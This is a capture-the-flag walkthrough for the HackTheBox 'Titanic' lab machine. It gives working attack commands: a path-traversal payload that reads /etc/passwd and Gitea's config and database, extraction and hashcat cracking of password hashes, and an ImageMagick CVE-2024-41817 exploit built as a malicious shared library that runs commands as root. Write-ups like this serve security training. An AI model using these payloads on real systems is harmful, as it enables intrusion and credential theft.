

# Titanic CTF - HackTheBox Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Titanic** CTF challenge on [HackTheBox](https://app.hackthebox.com/machines/Titanic). 
---

we see open ports 22 and 80


we can use ffuf to enumerate vhosts 

```
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://titanic.htb -H 'Host: FUZZ.titanic.htb'  -fl 10
```


we found `dev`, adding to /etc/hosts

on dev subdomain we found gitea


first some password in `docker-config/mysql/docker-compose.yml`


in `docker-config/gitea/docker-compose.yml` we found some custom path `/home/developer/gitea/data`


in `flask-app/tickets/` we see possible usernames and emails


```
{"name": "Rose DeWitt Bukater", "email": "rose.bukater@titanic.htb", "phone": "643-999-021", "date": "2024-08-22", "cabin": "Suite"}
{"name": "Jack Dawson", "email": "jack.dawson@titanic.htb", "phone": "555-123-4567", "date": "2024-08-23", "cabin": "Standard"}
```

from source code we know about /download route, we also know about ticket parameter, now we can try LFI by accessing


```
http://titanic.htb/download?ticket=/etc/passwd
```


it works and we see the file being download

we can capture the request using burp


we know about user developer so we can try to check for private ssh keys (sadly there arent any)

we can combine the custom path we found in gitea files with  gitea configuration cheat sheet `https://docs.gitea.com/next/administration/config-cheat-sheet`, to access app.ini file 


```
/download?ticket=/home/developer/gitea/data/gitea/conf/app.ini
```


from this config file we know about database in `/home/developer/gitea/data/gitea/gitea.db`

we can download the database and examine it with sqlitebrowser


we see users and passwords hashed with pbkdf2

we can try to crack them but first we need a tool to convert to hashcat format `gitea2hashcat.py` from `https://github.com/unix-ninja/hashcat/blob/master/tools/gitea2hashcat.py`

to convert we can use command 

```
sqlite3 _home_developer_gitea_data_gitea_gitea.db 'select salt,passwd from user;' | python3 gitea2hashcat.py > hash.txt
```


now we use hashcat 

```
hashcat -a 0 -m 10900 hash.txt /usr/share/wordlists/rockyou.txt
```


the password worked and we can login via ssh and grab user flag


there is some script in /opt directory that uses imagemagick


we can check the version of imagemagick



this version is vulnerable to exploit `https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8`

to test the exploit we can use `https://github.com/Dxsk/CVE-2024-41817-poc`

```
python CVE-2024-41817-poc/exploit.py -c "id" -H 10.10.11.55 -p 22 -u developer -P pass -A
```

we can do it manually and modify the command from the POC to:


```
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void __attribute__((constructor)) init() {
    system("cp /root/root.txt root.txt; chmod 754 root.txt");
    exit(0);
}
EOF
```

we gained root flag


# MACHINE PWNED
